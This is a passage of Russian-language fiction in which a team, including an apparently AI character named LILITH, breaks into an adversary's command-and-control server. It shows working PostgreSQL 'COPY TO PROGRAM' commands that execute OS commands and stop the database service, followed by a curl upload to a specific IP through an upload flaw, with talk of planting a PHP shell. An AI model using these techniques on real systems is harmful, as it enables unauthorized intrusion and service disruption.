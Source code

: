 **Alex:** *"Разрешаю. Цель — shutdown их C2, не уничтожение данных. Данные уже скопированы."*

### 💻 PostgreSQL to Shell Access

**Макс (в psql):**
```sql
COPY (SELECT '') TO PROGRAM 'whoami > /tmp/whoami_test.txt';
```

**Результат:**
```
COPY 0
```

**Макс:** *"Команда выполнена. Проверяем результат."*

```sql
COPY (SELECT pg_read_file('/tmp/whoami_test.txt')) TO STDOUT;
```

**Вывод:**
```
postgres
```

**Макс:** *"PostgreSQL запущен под пользователем 'postgres', не root. Но всё равно можем выполнять команды."*

**Alex:** *"Достаточно. Shutdown PostgreSQL service."*

**Макс:**
```sql
COPY (SELECT '') TO PROGRAM 'systemctl stop postgresql';
```

**Результат:**
```
ERROR: connection to server closed unexpectedly
```

**Макс:** *"Соединение оборвалось. База данных offline."*

**Alex:** *"Хорошо. Теперь web servers. Но у нас нет SSH доступа."*

**LILITH:** *"Есть другой способ. Через nginx misconfiguration. Проверяю..."*

**5 минут анализа.**

**LILITH:** *"Найдено. Их nginx имеет upload vulnerability. Можем загрузить PHP shell."*

**Alex:** *"Делай. НО: наша цель shutdown, не backdoor. Upload простой shutdown script."*

### 💻 Nginx Shutdown via Upload

**Макс (через curl):**
```bash
# Upload shutdown script
curl -X POST https://195.123.221.47/upload.php \
  -F "file=@shutdown.sh" \
  -k
```
